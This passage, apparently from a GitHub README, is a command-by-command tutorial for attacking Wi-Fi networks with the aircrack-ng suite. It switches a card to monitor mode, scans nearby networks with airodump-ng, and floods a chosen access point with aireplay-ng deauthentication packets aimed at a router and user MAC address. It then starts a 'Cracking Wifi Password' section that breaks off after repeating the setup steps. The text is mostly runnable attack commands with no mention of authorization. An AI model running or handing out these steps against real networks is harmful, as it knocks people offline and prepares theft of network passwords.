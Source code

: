 * up the wireless connection
```
 $ ifconfig wlan0 up
```

* recheck wlan0 mode
```
 & iwconfig
```

* check networks available nearby
```
 $ airodump-ng wlan0
```

* Quite checking 
```
command + c
```

* info about network to be interrupted
```
 $ airodump-ng wlan0 -bssid (e.g 7C:A9:6B:50:43:45) --channel 11 --write (e.g test)
 ```

* start flooding the selected network 
```
 $ aireplay-ng --deauth 100(i.e no. of packets) -a (e.g 7C:A9:6B:50:43:45 i.e MAC address of Hotspot Router) -c (e.g 48:5F:99:C2:E2:BF i.e MAC address of User) wlan0
```

**ACCOMPLISHED!**

## Cracking Wifi Password

* check wlan0 mode
```
 $ iwconfig
```
> Note: Mode can be Managed or Monitor but we have to configure it into Monitor mode.

* down the wireless connection
```
 $ ifconfig wlan0 down
```

* change wlan0 mode into Monitor
```
 $ iwconfig wlan0 mode monitor
```

* up the wireless connection
```
 $ ifconfig wlan0 up
```

* recheck wlan0 mode
```
 & iwconfig
```
